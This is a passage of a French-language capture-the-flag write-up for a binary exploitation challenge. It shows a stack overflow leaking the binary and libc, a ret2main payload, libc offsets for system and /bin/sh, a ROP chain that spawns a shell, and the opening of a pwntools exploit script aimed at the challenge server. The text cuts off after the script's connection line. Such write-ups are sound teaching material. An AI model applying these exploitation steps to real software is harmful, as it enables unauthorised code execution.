 ```py
```
On obtient assez rapidement un résultat : `0x400743 b'Thanks AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC\x07@\x7fELF\x02\x01\x01'`
J'ai donc pu leaker le binaire en entier, et récupérer l'adresse de `main` puis l'adresse de `puts` dans la plt qui pointera à l'exécution du programme vers l'adresse de `puts` dans la libc.
Comme l'ASLR est activé, les adresses vers les fonctions de la libc seront différentes à chaque exécution, il faut donc trouver un moyen de ré-appeler `main`, un simple ret2main suffira : 
```py
pld = b"A"*40
pld += p64(saved_rip) # continuer le fonctionnement normal du programme, on ecrasera la 2e sauvegarde de RIP
pld += p64(0xdeadbeefcafebabe) # junk
pld += p64(addr_main)*3
```
Il faut maintenant leaker l'adresse de puts, en revanche, on ne peut pas leaker cette adresse de la même manière que l'on a leaké le binaire tout à l'heure car cela écraserait les sauvegardes de RIP vers main que l'on vient de placer, et nous ne pourront pas profiter de ce leak pour calculer l'adresse de `system`.
Mais si on se souvient bien, on a déjà réussi à avoir un leak au tout début du challenge : avec 39 `A`, le challenge nous retournait la valeur de la sauvegarde de RIP, mais il y a sûrement d'autres valeurs intéressantes : 
```
$ python -c "print 'A'*7" | nc challenges2.france-cybersecurity-challenge.fr 4008 | xxd
00000000: 4865 6c6c 6f20 796f 752e 0a57 6861 7420  Hello you..What
00000010: 6973 2079 6f75 7220 6e61 6d65 203f 0a3e  is your name ?.>
00000020: 3e3e 2054 6861 6e6b 7320 4141 4141 4141  >> Thanks AAAAAA
00000030: 410a 376a 285d fc7e 4279 6521 0a         A.7j(].~Bye!.
```
Avec 7 `A`, le challenge nous ressort 6 nouveaux bytes : `\x37\x6a\x28\x5d\xfc\x7e`.
En leakant l'adresse de `puts` (après un ret2main puis de la même manière avec laquelle nous avons leaké le binaire), il se trouve que :
```
puts = leak - 0xa7
```
On peut donc obtenir l'adressse d'une fonction de la libc avec ce leak.
Grâce à [ce site](https://libc.blukat.me/?q=_IO_printf%3A0x7fbc57249cf0%2C_IO_puts%3A0x7fbc57264990&l=libc6_2.19-18%2Bdeb8u10_amd64) (en utilisant des valeurs précédemment trouvée) on obtient les valeurs de décalage pour trouver l'adresse de `system` et l'adresse de `/bin/sh` dans la libc à partir de l'adresse de puts.
Ainsi : 
```
system = puts - 0x2a500
bin_sh = puts + 0xf7a58
```
Il suffira ainsi de :
```
pop_rdi + bin_sh + system
```
et nous obtiendrons notre tant attendu shell.
Voiçi l'exploit complet : 
```
from pwn import *
import threading

saved_rip = 0x4006cc

pop_gadget = 0x400743
pop_rdi = pop_gadget

print_gadget = 0x40066d

addr_main = 0x004006b4
addr_puts = 0x00600fc8

r = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
```